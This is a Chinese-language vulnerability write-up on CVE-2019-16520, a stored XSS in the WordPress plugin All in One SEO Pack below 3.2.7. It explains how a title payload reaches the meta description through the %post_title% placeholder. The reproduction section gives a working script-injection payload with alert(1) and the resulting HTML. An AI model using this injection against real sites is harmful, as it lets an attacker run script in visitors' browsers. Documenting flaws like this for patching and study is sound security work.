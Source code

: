 ```yaml
---
title: （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss
id: zhfly3251
---
```


# （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss

## 一、漏洞简介

适用于WordPress的3.2.7之前的“all-in-one-seo-pack plugin”插件（aka All in One SEO Pack）易受存储XSS的影响，原因是该插件通过不安全的占位符替换提供的帖子的SEO特定描述的编码不正确。

## 二、漏洞影响

wordpress <= 3.2.6

## 三、复现过程

### 1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：

```
Title: test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a
Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description% 
```

当帖子被保存并以后访问时，将显示JavaScript警报弹出窗口。生成的HTML页面将包含以下代码

```
<title>test_aiosp_title&amp;&lt;&gt;&quot;&#039;;&lt;script src=&#039;data:text/javascript,alert(1)&#039;&gt;&lt;/script&gt; | XXXXXXX</title>

<!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->

<meta name=“description”  content=“test_aiosp_desc&amp;&quot;&#039;; pt:test_aiosp_title&<>”’;<script src=‘data:text/javascript,alert(1)’></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" /> 
```

### 2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入meta到帖子页面上的相应-tags中。在将字段的值插入页面的HTML中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在 aioseop_class.php第4546-4548行中找到：

```
if ( false !== strpos( $description, '%post_title%', 0 ) ) {
    $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
} 
```

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破meta-tag属性并插入任意HTML和JavaScript。